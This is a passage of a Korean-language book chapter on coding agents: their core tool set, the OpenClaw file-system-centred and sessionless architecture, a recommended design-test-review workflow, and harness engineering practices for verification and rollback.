

# 코딩 에이전트와 코드 생성

앞선 장에서는 컨텍스트 엔지니어링(2장과 3장)과 도구 설계(4장)를 자세히 살펴보았습니다. 이 장에서는 이러한 구성 요소를 결합하여 핵심 질문에 답합니다. **임의의 작업을 처리할 수 있는 범용 에이전트의 아키텍처는 어떤 모습이어야 할까요?**

그 답은 다음과 같습니다. **개방형 작업을 대상으로 하는 범용 에이전트**의 중심에는 **코딩 에이전트**(코드를 자율적으로 작성하고 수정하며 실행할 수 있는 에이전트)와 **파일 시스템**이 있습니다. 파일 시스템은 프로그래머가 컴퓨터의 폴더로 프로젝트를 관리하듯 에이전트가 코드, 데이터, 메모리, 중간 결과를 저장하는 작업 공간입니다. Manus부터 OpenClaw까지 성공적인 개방형 범용 에이전트는 모두 이 패러다임을 따릅니다.

왜 코드 생성이 이런 무게를 감당할 수 있을까요? 코드 생성은 단순한 도구가 아니라, 런타임에 새로운 도구와 역량을 동적으로 만들어 내는 **메타 역량**이기 때문입니다. 이 장의 후반부에서는 이 개념과 그것이 적용되는 여섯 가지 방향을 자세히 설명합니다.

코드는 두 가지 차원에서 에이전트에 기여합니다. **사고**의 매체로서 코드는 엄밀성을 강제합니다. "나이가 18세보다 많고 신원이 확인됨"이라는 자연어 표현은 여러 방식으로 해석될 수 있지만, 코드로 쓰면 해석은 단 하나뿐입니다. **표현**의 매체로서 실행되는 코드는 그 자체로 논리적 일관성의 증거이며, 실행 결과는 객관적인 정답 기준을 제공합니다.

이 장에서는 먼저 코딩 에이전트의 기본 역량과 범용 에이전트 아키텍처(OpenClaw)를 살펴본 다음, 수학적 사고와 콘텐츠 제작부터 시스템 수준의 메타 역량에 이르기까지 다양한 시나리오에서 코드 생성이 어떻게 활용되는지 보여 줍니다.

## 코딩 에이전트

### 에이전트의 기반 역량으로서의 코딩

**코드 생성은 일부 전문 에이전트만의 영역이 아니라, 모든 범용 에이전트가 갖추어야 할 기반 역량입니다.** 오늘날의 SOTA 모델을 사용하면 복잡한 아키텍처 없이도 에이전트에 기본적인 코딩 능력을 부여할 수 있습니다.

"저장소에 남아 있는 TODO 주석을 모두 정리하고 우선순위별로 분류한 뒤 이슈를 만들어 주세요"라는 전형적인 작업을 생각해 보겠습니다. 이 작업을 완료하려면 디렉터리 구조 탐색(ls/glob), 코드 읽기(read), 파일 수정(edit/write), 명령 실행(bash), 패턴 검색(grep/search)이 필요합니다. 이 다섯 가지 작업 유형은 코딩 에이전트의 핵심 동작을 거의 모두 포괄하며, 아래의 일곱 가지 도구도 여기에서 나옵니다. 엄밀히 말하면 다섯 유형은 여섯 도구에 자연스럽게 대응하고, 일곱 번째인 코드 인터프리터는 "코드 실행·계산"을 담당합니다. 일부 구현에서는 이를 Bash에 통합하기도 합니다. 따라서 일곱 도구는 표준화한 참조 구성이지, 다섯 유형과 엄격히 일대일로 대응하는 목록은 아닙니다.

기본적인 코딩 에이전트에는 다음 일곱 가지 핵심 도구만 있으면 됩니다.

1. **코드 인터프리터(Code Interpreter)**: 호스트 시스템과 분리된 안전한 런타임인 격리 샌드박스를 제공하여, Python 코드의 실행 오류가 호스트에 영향을 주지 않도록 안전하게 실행합니다.
2. **Bash 셸(Bash Shell)**: 테스트 케이스 실행이나 특수한 형식의 파일 처리처럼 터미널에서 명령을 실행합니다.
3. **파일 읽기 도구(Read File Tool)**: 코드, 설정, 문서, 로그 등을 읽습니다.
4. **파일 쓰기 도구(Write File Tool)**: 새 파일을 만들거나 기존 파일 전체를 덮어씁니다.
5. **파일 편집 도구(Edit File Tool)**: 기존 파일의 일부를 수정하며, 코드 유지보수와 반복 개선에 필요한 핵심 작업을 수행합니다.
6. **파일 이름 검색 도구(Glob)**: 패턴 일치를 이용해 파일 시스템에서 대상 파일을 빠르게 찾습니다. 예를 들어 `**/*.py`로 프로젝트의 모든 Python 파일을 찾을 수 있습니다.
7. **파일 내용 검색 도구(Grep)**: 파일 내용에서 특정 텍스트 패턴을 검색합니다. 예를 들어 특정 함수를 호출하는 코드 줄을 모두 찾을 수 있습니다.

이 일곱 도구는 거의 모든 에이전트 시스템이 적은 비용으로 통합할 수 있는 완전하면서도 최소한의 도구 상자입니다. 구현할 때는 4장에서 소개한 MCP 프로토콜을 통해 모두 표준화된 도구 서비스로 노출할 수 있습니다. 다만 이 도구 세트는 코딩 에이전트에 특화된 기본 구성으로, 4장에서 호출 방향과 기능적 역할에 따라 분류한 다섯 가지 범용 도구 유형(인지·실행·협업·이벤트 트리거·사용자 커뮤니케이션)과는 구별됩니다. 일곱 가지 핵심 도구는 주로 인지와 실행 유형을 다룹니다. 그렇다면 협업, 이벤트 트리거, 사용자 커뮤니케이션은 어떨까요? 코딩 에이전트에서는 보통 도구 계층이 아니라 프레임워크가 이를 담당합니다. 예를 들어 하위 에이전트 위임은 전용 협업 도구가 아니라 프레임워크의 오케스트레이션 로직으로 처리합니다.

일곱 도구가 어떻게 함께 작동하는지 가장 간단한 작업으로 살펴보겠습니다. 사용자가 "프로젝트의 모든 TODO 주석을 목록으로 정리해 주세요"라고 말했다고 가정합니다.

```text
에이전트(사고): TODO가 포함된 모든 코드 줄을 찾아야 한다.
에이전트 → Grep("TODO", glob="**/*.py")          # 파일 내용 검색
도구 반환:
  src/api.py:42: # TODO: 속도 제한 추가
  src/db.py:15:  # TODO: PostgreSQL로 마이그레이션
  tests/test_api.py:8: # TODO: 경계 사례 테스트 추가

에이전트(사고): TODO 3개를 찾았다. 목록으로 정리해 파일에 써야 한다.
에이전트 → Write("TODO_LIST.md", content="...")   # 파일 쓰기
도구 반환: 파일 생성 완료

에이전트: 완료했습니다. TODO 항목 3개를 찾았고 목록은 TODO_LIST.md에 저장했습니다.
```

전체 과정에서 사용한 도구는 Grep(내용 검색)과 Write(파일 쓰기)뿐입니다. "모듈별 TODO 수를 집계하고 막대그래프를 그려 주세요"처럼 작업이 더 복잡하다면 에이전트는 코드 인터프리터도 사용해 통계와 시각화를 위한 Python 코드를 실행할 것입니다. 일곱 도구는 각각 단순하지만, 조합하면 놀라울 정도로 다양한 작업을 처리할 수 있습니다.

왜 여섯 개가 아니라 일곱 개의 도구인지 궁금할 수 있습니다. 사실 Bash Shell 하나만 있어도 충분합니다. OpenAI Codex는 Bash Shell 하나만 제공하며 파일 읽기와 쓰기, 검색을 모두 이 도구 하나로 처리합니다. 그러나 다른 일부 에이전트는 여전히 별도의 파일 읽기·쓰기 도구를 유지합니다. 이 책에서 일곱 가지 도구를 나누어 제시한 것은 코딩 에이전트에 필요한 기본 역량을 독자가 이해하기 쉽도록 하기 위해서입니다.

왜 모든 범용 에이전트에 코딩 능력이 필요할까요? 코드 생성은 단순히 프로그램을 작성하는 일이 아니라 문제를 해결하는 범용적인 방법이기 때문입니다. 수학 문제를 만나면 에이전트는 코드를 작성해 솔버에 전달하고 정확한 답을 얻을 수 있습니다. 비즈니스 규칙을 명확히 해야 할 때는 어떤 자연어 설명보다 코드가 훨씬 정확합니다. 필요한 도구가 없으면 그 자리에서 만들 수 있고, 데이터 형식이 바뀌면 새로운 파싱 로직을 생성할 수 있습니다. 뒤의 절에서는 이러한 시나리오를 하나씩 살펴봅니다. 기본적인 코딩 능력을 갖춘 에이전트는 위의 단순한 일곱 도구만 보유하더라도 새로운 필요가 생길 때마다 자신의 역량을 확장할 수 있습니다.

### 사례 연구: Manus에서 OpenClaw까지 — 범용 에이전트의 코딩 핵심

Manus와 OpenClaw 같은 범용 에이전트 제품은 딥 리서치(Deep Research), 컴퓨터 사용(Computer Use), 코딩이라는 세 가지 주요 역량을 하나의 시스템에 결합합니다. 그렇다면 왜 이 장의 서두에서는 다른 둘이 아니라 코딩 에이전트를 핵심이라고 불렀을까요?

효율적인 콘텐츠 생성은 거의 모두 결국 코드로 귀결되기 때문입니다. PowerPoint 프레젠테이션과 Word 문서는 본질적으로 OOXML(Office Open XML, Microsoft의 오피스 문서용 개방형 표준) 형식의 코드입니다. PDF 보고서는 Markdown, HTML, LaTeX를 통해 생성할 수 있고, Python 스크립트는 데이터 분석과 시각화를 수행할 수 있습니다. GUI 작업에서 성공한 브라우저 조작 시퀀스조차 재사용 가능한 코드로 캡처할 수 있습니다(9장 참조). Deep Research의 검색과 정보 종합도 코드 기반 웹 요청과 파싱으로 구현할 수 있습니다. Computer Use는 더 다재다능하지만, 같은 작업이라면 직접적인 코드 또는 API 호출이 일반적으로 더 저렴하고 빠르며 더 신뢰할 수 있습니다. 코드 생성은 가장 효율적이고, 비용이 낮으며, 재사용성이 가장 높은 역량 기반입니다.


구체적인 실행 흐름을 통해 이 아키텍처를 이해해 보겠습니다. 사용자가 "지난 분기의 매출 데이터를 분석하고 요약 보고서를 만들어 주세요"라고 요청했다고 가정합니다.

1. **메모리 읽기**: 에이전트는 `MEMORY.md`를 읽고 사용자가 PDF 형식의 보고서를 선호하며 데이터 원본이 Google Sheets라는 사실을 확인합니다.
2. **도구 호출**: 웹 검색 모듈로 Google Sheets API 사용법을 확인하고 코드 실행을 통해 데이터를 다운로드합니다.
3. **코드 작성**: Python 데이터 분석 스크립트(pandas 집계, matplotlib 시각화)를 생성합니다.
4. **산출물 생성**: 분석 결과는 `report.pdf`에, 차트는 `charts/` 디렉터리에 저장합니다.
5. **메모리 갱신**: 다음에는 다시 묻지 않도록 "사용자의 매출 데이터는 Google Sheets에 있으며 ID는 xxx"라는 정보를 `MEMORY.md`에 기록합니다.

이 과정 전체에서 파일 시스템은 정보 흐름의 허브입니다. 메모리를 파일에서 읽고, 산출물을 파일에 쓰며, 경험 역시 파일로 저장합니다.

**에이전트의 중앙 허브로서의 파일 시스템.** OpenClaw 설계에서 파일 시스템은 단순한 데이터 저장소를 훨씬 뛰어넘어 에이전트의 메모리, 지식, 역량을 잇는 중앙 허브 역할을 합니다. 에이전트의 장기 메모리는 `MEMORY.md`(상위 수준의 사실과 사용자 선호)와 날짜별로 보관하는 Markdown 로그에 저장됩니다. 벡터 데이터베이스 대신 Markdown을 선택하는 것이 직관에 어긋나 보일 수 있지만, 실제로는 매우 효과적입니다. 사용자가 파일을 직접 열어 에이전트의 메모리를 읽고 수정할 수 있고(에이전트가 잘못 기억했다면 해당 줄만 삭제하면 됩니다), Markdown은 시간 순서를 자연스럽게 보존하므로 의미 기반 검색에서 시간적 혼동을 피할 수 있으며, Git을 통한 버전 관리와 롤백도 지원합니다.

더 중요한 점은 에이전트가 파일을 쓸 수 있기 때문에 자신의 외부 산출물을 수정할 기술적 수단도 갖는다는 것입니다. 예를 들어 에이전트가 특정 은행에 처음 전화하는 과정에서 신원 확인을 위해 지점 주소가 필요하다는 미지의 핵심 정보를 알아냈다면, 우선 그 발견을 기록으로 남길 수 있습니다. 그러한 기록이 언제 신뢰할 수 있는 지식, 지침, 프로그램으로 승격될 만큼 충분한지는 추가 실행 궤적과 결과 검증을 통해 판단해야 합니다. 이는 9장에서 다루는 지속적 진화의 문제입니다.

**적용 범위: 어떤 에이전트가 코딩을 핵심 아키텍처로 삼는가.** "코딩 에이전트가 범용 에이전트의 핵심"이라는 결론은 주로 **개방형 작업을 대상으로 하는 범용 에이전트**에 적용됩니다. 즉, 딥 리서치, 콘텐츠 생성, 데이터 처리처럼 작업 경계가 불확실하고 산출물 형태가 다양한 시나리오입니다. 이런 상황에서는 필요한 도구를 미리 모두 열거할 수 없습니다. 메타 역량인 코드 생성은 역량의 경계를 동적으로 확장하는 가장 경제적인 경로를 제공하므로, 아키텍처의 핵심이 됩니다. 반대로 수직 도메인의 고객 서비스 에이전트는 비교적 폐쇄된 작업 공간에서 작동하며, 핵심 아키텍처는 고정된 비즈니스 프로세스, 도메인 도구, 대화 전략을 중심으로 구성됩니다. 이 경우 코드는 도구 상자의 한 도구일 뿐 아키텍처의 중심은 아닙니다. 그러나 후자의 경우에도 코딩은 중요한 기반 역량입니다. 정확한 계산, 데이터 처리, 규칙 검증이 모두 코딩에 의존하기 때문입니다.

이어서 "항상 이용 가능한" 상호작용 방식과 보안 아키텍처라는 두 가지 설계를 살펴봅니다. 처음에는 코딩 에이전트 주제와 무관해 보일 수 있지만, 이 둘은 코딩 에이전트의 핵심 관심사인 코드 실행 환경과 파일 시스템 상태를 에이전트가 어떻게 관리할지 직접 결정합니다. (코딩 에이전트가 단계별로 어떻게 작동하는지 먼저 이해하고 싶은 독자는 "코딩 에이전트의 전체 워크플로" 절로 건너뛴 뒤 상호작용과 보안 설계를 보러 돌아와도 됩니다.)

OpenClaw는 **세션리스(Sessionless)** 설계를 채택합니다. 사용자는 앱을 설치하거나 로그인할 필요도, 대화할 때마다 앱을 열 필요도 없습니다. 에이전트는 항상 온라인 상태이며, 사용자는 이미 쓰고 있는 메시징 플랫폼에서 언제든 메시지를 보내 응답을 받을 수 있습니다. 이러한 상호작용 패러다임과 기반이 되는 게이트웨이 메시지 라우팅·이벤트 기반 아키텍처는 6장의 사용자 커뮤니케이션 도구 절에서 자세히 다루었으므로 여기서는 반복하지 않습니다. 강조할 부분은 이 패러다임이 성립하기 위한 전제입니다. 대규모 모델은 새로운 종류의 "지능 기반" 역할을 할 만큼 성숙했습니다. 기존 운영체제가 하드웨어를 추상화해 상위 애플리케이션에 통합 인터페이스를 제공하듯, 대규모 모델은 언어 이해, 사고, 계획의 복잡성을 추상화하여 상위 에이전트에 통합된 지능 추상화를 제공합니다. 바로 이러한 기반 덕분에 "항상 온라인 + 즉시 응답" 패러다임을 적은 비용으로 구현할 수 있습니다.

코딩 에이전트에서 세션리스 운영의 핵심 엔지니어링 과제는 **메시지 사이에도 코드 실행 환경과 파일 시스템 상태를 보존하는 것**입니다. 두 사용자 메시지 사이의 간격은 몇 분일 수도, 며칠일 수도 있으며, 에이전트의 작업은 샌드박스에 설치된 패키지, 터미널 세션의 작업 디렉터리와 환경 변수, 백그라운드 개발 서버, 작성 중인 파일 등 수많은 암묵적 상태에 의존합니다. OpenClaw는 상태를 두 계층으로 관리합니다. **파일 시스템 상태는 본질적으로 영속적입니다.** 작업 공간 디렉터리를 샌드박스 외부의 영구 스토리지에 마운트하므로 코드, 데이터, 중간 산출물이 메시지 간에도, 샌드박스를 다시 시작해도 남아 있습니다. 이는 "에이전트의 중앙 허브로서의 파일 시스템"이 지닌 또 다른 의미입니다. **프로세스 상태는 유지하거나 필요할 때 다시 구축합니다.** 활성 기간에는 샌드박스와 터미널 세션을 계속 실행해 매 메시지마다 콜드 스타트하고, 작업 디렉터리로 다시 이동하고, 가상 환경을 재활성화하는 일을 피합니다. 유휴 시간 제한이 지나면 리소스를 회수하기 위해 이를 종료하지만, 그 전에 직렬화할 수 있는 환경 상태(작업 디렉터리, 환경 변수, 백그라운드 작업 목록)를 작업 공간 파일에 기록하고 다음에 깨어날 때 에이전트가 이 기록을 바탕으로 환경을 재구축합니다. 이 장 뒤쪽의 "명령 실행 환경의 상태 지속성"에서 다루는 영구 터미널 세션은 단일 작업 안에서 이 메커니즘에 대응하는 요소입니다. 세션리스는 동일한 문제를 메시지와 날짜를 넘나드는 시간 규모로 확장합니다.

세션리스가 아무런 유지보수 없이 작동하는 것은 아닙니다. 사용자 메시지가 올 때마다 **전체 실행 궤적과 작업 상태를 다시 불러와야 하므로**, 효율적인 상태 직렬화와 효과적인 궤적 압축 전략이 특히 중요합니다. 궤적 압축의 설계 원칙은 2장의 "컨텍스트 압축 전략" 절에서 다루었으며, 이 장에서는 세션리스 아키텍처가 요구하는 엔지니어링상의 절충에 초점을 맞춥니다.

### 코딩 에이전트의 전체 워크플로


**프로젝트 문서화.**

코딩 에이전트의 작업은 프로젝트를 체계적으로 이해하는 데서 시작합니다. 에이전트가 코드 저장소를 처음 접했을 때 첫 번째 할 일은 코드를 수정하는 것이 아니라 프로젝트 전체에 대한 인지적 틀을 세우는 것입니다. 신입 엔지니어가 첫날부터 코드를 푸시하지 않고 먼저 전반적인 상황을 파악하는 것과 같습니다. 에이전트는 README, 아키텍처 설계 문서, 개발자 가이드 같은 프로젝트 문서가 있는지 확인하는 것부터 시작합니다.

핵심 문서가 없다면 에이전트는 무작정 작업을 시작해서는 안 됩니다. 코드베이스를 체계적으로 조사하고 주요 모듈, 핵심 추상화, 컴포넌트 간 의존성을 파악한 뒤 아키텍처 개요, 디렉터리 안내, 테스트 실행 방법의 초안을 작성해야 합니다. 이 문서들은 이후 에이전트 작업의 청사진이 되고 다른 개발자에게는 진입점이 됩니다. 이는 지식의 외재화가 효율적인 협업의 전제라는 핵심 원칙을 구현합니다.

오늘날 프로젝트 문서에는 에이전트에 특화된 형태인 **프로젝트 지침 파일**도 있습니다. CLAUDE.md, AGENTS.md, .cursorrules 같은 파일은 사실상의 업계 표준이 되었습니다. 매 세션을 시작할 때 컨텍스트에 자동으로 주입되어 프로젝트 수준의 시스템 프롬프트 역할을 합니다. 사람을 위한 README와 달리 지침 파일에는 빌드·테스트 명령("`npm test` 대신 `pnpm test`를 사용할 것"), 코드 스타일("`any` 타입을 피할 것"), 명확한 제한 구역("`migrations/` 디렉터리를 수정하지 말 것") 등 에이전트의 행동 규칙을 담습니다. 이는 OpenClaw의 `SOUL.md`(에이전트의 정체성과 행동 규칙 정의), `MEMORY.md`(세션 간 경험 축적)와 같은 개념을 서로 다른 계층에 적용한 것입니다. SOUL.md가 "에이전트가 누구인지"를 정의한다면 프로젝트 지침 파일은 "이 프로젝트에서 어떻게 작업할지"를 정의합니다. 2장의 컨텍스트 엔지니어링 관점에서 지침 파일은 가장 경제적인 안정 접두사이기도 합니다. 그 내용은 작업에 따라 바뀌지 않으므로 자연스럽게 KV 캐시에 친화적이며, "지식은 코드베이스 자체에 존재해야 한다"는 원칙을 가장 직접적으로 구현합니다.

지식 외재화 원칙에는 흥미로운 귀결도 있습니다. **원격 근무에 친화적인 팀은 대개 AI 에이전트에도 친화적입니다.** 원격 팀은 비동기 커뮤니케이션과 문서화에 의존할 수밖에 없습니다. 의사결정은 문서에 기록되고, 맥락은 이슈와 PR 설명에 담기며, 암묵지는 옆자리의 구두 전달이나 회의실 화이트보드가 아니라 개발자 가이드에 축적됩니다. 이는 에이전트가 소비할 수 있는 지식의 형태와 정확히 일치합니다. 에이전트는 말로 한 합의를 읽을 수 없지만 설계 문서는 읽을 수 있습니다. 반대로 "옆 사람에게 물어보면 된다"는 방식으로 운영되는 팀은 에이전트에 새 원격 입사자와 똑같이 높은 온보딩 비용을 부과합니다. 팀의 "AI 준비도"를 가늠하는 간단한 대리 지표는 다음과 같습니다. 원격으로 합류한 새 구성원이 코드 저장소와 문서만 가지고 독립적으로 일할 수 있는가?

**작업 이해와 요구사항 명확화.**

알려진 버그를 수정하거나 함수 매개변수를 조정하는 것처럼 경계가 명확하고 영향 범위가 제한적인 단순 요구사항이라면 에이전트는 구현 단계로 바로 진행할 수 있습니다. 하지만 소프트웨어 개발 작업의 대부분은 이처럼 단순하지 않습니다.

요구사항이 복잡할수록 에이전트는 더 신중하고 체계적으로 접근해야 합니다. 복잡성은 요구사항 자체의 모호함(사용자가 무엇을 원하는지는 알지만 정확히 표현하지 못함), 구현 경로의 다양성(각기 다른 절충을 지닌 여러 기술적 해법), 넓은 영향 범위(여러 모듈을 수정해야 하며 기존 기능이 깨질 수 있음) 등 여러 차원에서 생깁니다. 에이전트는 탐색적 조사를 통해 경계를 명확히 하고, 필요하면 사용자와 선제적으로 대화해야 합니다. 예를 들어 사용자가 "시스템 성능을 최적화해 주세요"라고 요청하면 먼저 구체적인 목표(응답 시간 단축, 메모리 사용량 감소, 처리량 증가 중 무엇인지), 허용 가능한 절충(예: 코드 복잡성 증가를 받아들일 수 있는지), 현재 병목이 어디에 있는지를 파악해야 합니다. 요구사항이 여전히 모호한 상태에서 코딩을 시작하면 대규모 재작업으로 이어지는 경우가 많습니다.

**설계 문서 작성.**

설계 문서는 추상적인 요구사항을 구체적인 구현 계획으로 옮기는 다리입니다. 어떤 모듈을 왜 수정해야 하는지, 어떤 접근법을 선택하며 어떤 절충이 따르는지, 어떤 새 의존성이 필요한지, 변경이 시스템에 어떤 영향을 줄 것으로 예상하는지라는 네 가지 핵심 질문에 답해야 합니다. 설계 문서를 작성하는 일 자체가 깊은 사고입니다. 많은 비용을 들여 코딩하기 전에 에이전트가 해법의 실현 가능성을 개념적으로 검증하도록 강제하기 때문입니다. 더 중요한 점은 설계 문서가 사람이 효율적으로 개입할 지점을 제공한다는 것입니다. 수백 줄의 코드를 검토하는 것보다 간결한 설계 문서를 검토하는 편이 훨씬 쉽습니다. 설계 문서를 완성한 에이전트는 사용자에게 검토를 요청하고 승인을 받은 뒤 다음 단계로 진행해야 합니다.

**코드 구현과 테스트.**

설계 승인을 받은 에이전트는 프로젝트의 코드 규칙에 따라 구현하고, 기존 추상화와 도구를 재사용하며, 코드베이스의 건전성을 유지하기 위해 필요한 경우 적절한 수준으로 리팩터링합니다.

구현을 마치면 즉시 테스트 주도의 품질 보증 단계로 들어갑니다. 새로 만들거나 수정한 기능에 대해 정상 경로, 경계 조건, 오류 시나리오를 포괄하는 테스트 케이스를 작성합니다. 그런 다음 테스트 스위트를 실행합니다. 테스트가 실패하면 사용자에게 실패 사실만 보고해서는 안 됩니다. 원인을 분석하고 문제를 찾아 모든 테스트가 통과할 때까지 코드를 수정해야 합니다. 이 "테스트-수정" 루프는 여러 차례 반복될 수 있으며, 바로 이러한 자기 교정 능력이 코딩 에이전트를 코드 생성기에서 신뢰할 수 있는 엔지니어링 조력자로 끌어올립니다. 반대로 코딩 에이전트가 가장 흔히 일을 게을리하는 방식은 이 단계를 통째로 건너뛰는 것입니다. 테스트를 한 번도 실행하지 않은 채 코드를 작성하고 "작업 완료"라고 보고합니다. 완료 기준을 "코드를 작성함"이 아니라 "테스트가 통과함"으로 정의하는 것은, 언제 멈춰도 안전한지를 검증이 결정하게 하는 루프 엔지니어링의 원칙을 코딩에 적용한 것입니다.

모든 테스트가 통과해도 에이전트의 작업은 끝나지 않습니다. 다음 단계는 코드 리뷰입니다. 에이전트는 자신이 생성한 코드를 비판적으로 검토합니다. 읽기 쉽고 주석이 충분한가? 숨어 있는 성능 문제나 보안 취약점은 없는가? 프로젝트의 코드 스타일과 모범 사례를 따르는가? 코드를 읽고, 린트 도구를 실행하고, 전용 코드 리뷰 하위 에이전트를 호출하는 방식으로 자체 리뷰를 수행할 수 있습니다. 리뷰에서 문제가 발견되면 결함 있는 코드를 사용자에게 전달하지 말고 수정 단계로 돌아가 문제를 해결해야 합니다.

**문서 동기화와 전달.**

새 모듈 도입, 모듈 간 의존성 변경, 핵심 추상화의 의미 변경처럼 코드 변경에 아키텍처 변경이 포함된다면 에이전트는 아키텍처 문서도 그에 맞게 갱신해야 합니다. 오래된 문서는 미래의 개발자를 오도하므로 문서가 없는 것보다 더 나쁩니다. 에이전트가 중요한 변경 후마다 문서를 자동으로 갱신하면 프로젝트 지식 베이스의 완전성과 최신성을 유지하는 데 도움이 됩니다.

이 워크플로는 계획이 행동에 앞서고, 검증이 전 과정에서 이루어지며, 문서가 코드와 함께 발전한다는 소프트웨어 엔지니어링의 핵심 원칙을 구현합니다.

위에서 설명한 과정은 **권장 엔지니어링 워크플로**임에 유의하세요. 실제 코딩 에이전트들(예: Claude Code, Codex)은 필요에 따라 이를 줄여서 사용합니다. 간단한 버그 수정 작업은 설계 문서 생성을 건너뛰고, 복잡하고 광범위한 작업만 모든 단계를 완전하게 거칩니다.

모델마다 이 워크플로를 줄이는 방식은 다릅니다. 어떤 코딩 모델은 첫 편집 전에 저장소 구조, 구현, 호출부, 테스트를 폭넓게 읽습니다. 다른 모델은 관련 가능성이 높은 몇 개의 파일만 살펴본 뒤 일찍 패치를 만들고, 컴파일러와 테스트 피드백을 조사 과정의 일부로 취급합니다. 정보를 언제까지 모으고 언제부터 행동할지를 결정하는 이 임계값은 하니스가 바뀐 뒤에도 모델과 함께 유지될 수 있고, 같은 하니스 안에서 모델만 교체해도 달라질 수 있습니다. 따라서 이것은 무엇보다도 **학습된 모델 행동**이지, 단지 코딩 제품의 인터페이스 스타일만은 아닙니다. 하니스의 프롬프트, 도구, 예산은 이를 강화하거나 약화시킬 수 있지만, 반드시 그 원천일 필요는 없습니다. 7장은 고정된 하니스에서 이 차이를 측정하고, 8장에서는 post-training이 이런 정책을 파라미터에 어떻게 기록하는지 설명합니다.

### 코딩 에이전트를 위한 하네스 엔지니어링 실무

1장에서는 하네스 엔지니어링의 개념과 **에이전트 = 모델 + 하네스**라는 공식을 소개했습니다. 여기서 하네스는 핵심 공식의 컨텍스트와 도구뿐 아니라 제약, 검증, 교정 메커니즘을 포함합니다. 이 다섯 요소가 함께 1장에서 정의한 하네스를 이룹니다. 코딩 에이전트는 하네스 엔지니어링이 아마도 가장 큰 효과를 내는 영역입니다. 코드 작성은 모든 에이전트 작업 중 **가장 검증하기 쉬우며**, 제약·검증·교정 모두 기존 인프라를 활용할 수 있기 때문입니다. 이 절에서는 코딩 에이전트 시나리오의 구체적인 실무에 초점을 맞춥니다.

시스템의 안정적인 운영 여부는 모델의 성능보다 에이전트 주변에 구축한 인프라의 견고함에 더 크게 좌우되는 경우가 많습니다. 1장에서는 하네스를 **컨텍스트와 도구**(에이전트가 행동할 수 있게 함), **제약·검증·교정**(에이전트가 안전하고 올바르게 행동하도록 도움)이라는 두 계층으로 나누었습니다. 코딩 에이전트 시나리오에서는 이를 다음과 같은 구체적인 엔지니어링 컴포넌트로 옮길 수 있습니다.

- **인수 기준선**: 무엇을 "완료"로 볼 것인가 — 테스트 스위트, CI 파이프라인(Continuous Integration pipeline, 코드 제출 후 자동으로 실행되는 일련의 검사), 코드 리뷰 기준
- **실행 경계**: 에이전트가 손댈 수 있는 것과 없는 것은 무엇인가 — 모듈 경계, 의존성 규칙, 권한 제어
- **피드백 신호**: 정확성에 대한 자동 판단 — 린터(Linter, 형식 오류와 잠재적 문제를 자동으로 찾는 코드 스타일 검사 도구) 출력, 테스트 결과, 타입 검사 오류
- **롤백 메커니즘**: 문제가 생겼을 때 어떻게 복구할 것인가 — Git 버전 관리, 샌드박스 격리, 스냅샷 롤백

**코딩 에이전트가 하네스 엔지니어링에 특히 적합한 이유.**

목표가 얼마나 명확한지, 검증이 얼마나 자동화되어 있는지라는 두 차원은 작업을 네 가지 상태로 나눕니다. 목표가 명확하고 결과를 자동으로 검증할 수 있는 영역에서 에이전트는 가장 뛰어난 성과를 냅니다. 목표는 명확하지만 인수 여부를 사람의 눈으로 판단해야 한다면 처리량은 사람의 검토 속도에 제한됩니다. 목표가 모호한데 피드백만 자동화하면 시스템이 잘못된 방향으로 효율적으로 달려갑니다. 둘 다 없다면 에이전트는 거의 쓸모가 없습니다. 표 5-1은 이 네 상태를 보여 줍니다. 하네스의 목표는 가능한 한 많은 작업을 "명확한 목표 + 자동 검증" 사분면으로 옮기는 것입니다.

표 5-1 작업 명확성과 검증 자동화의 네 사분면

| | 결과 자동 검증 가능 | 결과 수동 검증 필요 |
|---------|--------------------------------------------|------------------------------------------|
| **명확한 목표** | 최적 영역: 테스트 케이스가 있는 버그 수정 | 처리량 제한: 수동 검토가 필요한 코드 리팩터링 |
| **모호한 목표** | 잘못된 방향으로 효율적으로 진행: 린터로 "코드 품질" 최적화 | 시작하기 어려움: "UI를 더 보기 좋게 만들어 주세요" |

코드 작성 작업은 본질적으로 "명확한 목표 + 자동 검증" 사분면에 놓입니다. 테스트 스위트가 명확한 인수 기준을 제공하고, 린터와 타입 검사기가 즉시 자동 검증을 수행하며, Git은 완전한 버전 관리와 롤백 기능을 제공합니다. 코딩 에이전트가 현재 모든 에이전트 유형 중 가장 성숙한 이유도 여기에서 찾을 수 있습니다. 코드 생성 모델이 특별히 강력해서가 아니라 수십 년간 축적된 소프트웨어 엔지니어링 인프라가 자연스럽게 견고한 하네스를 구성하기 때문입니다.

**업계 실무.**

하네스 실무의 세 가지 사례 연구가 위 원칙을 확인해 줍니다.

